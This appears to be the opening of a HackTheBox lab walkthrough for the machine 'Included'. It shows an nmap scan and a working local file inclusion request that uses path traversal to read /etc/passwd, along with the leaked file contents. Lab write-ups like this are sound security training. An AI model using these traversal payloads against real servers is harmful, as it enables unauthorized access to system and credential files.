 ```yaml
---
title: Walkthrough - Included - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - lxd exploitation
  - port 69
  - tftp
  - privilege escalation
---
```


# Included - A HackTheBox machine

After running a port scan, the only open port is 80.

```bash
nmap -sC -sV $ip -Pn -p-
```

Results:

```
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php
```


After visiting the site with the browser and examining its code, it's a simple web site. php is used. The endpoint that appears in the scanner has a LFI vulnerability and some files can be read.

Burpsuite request:

```
GET /?file=../../../../../../etc/passwd HTTP/1.1
Host: 10.129.95.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Result:

```
HTTP/1.1 200 OK
Date: Mon, 08 May 2023 07:04:13 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1575
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```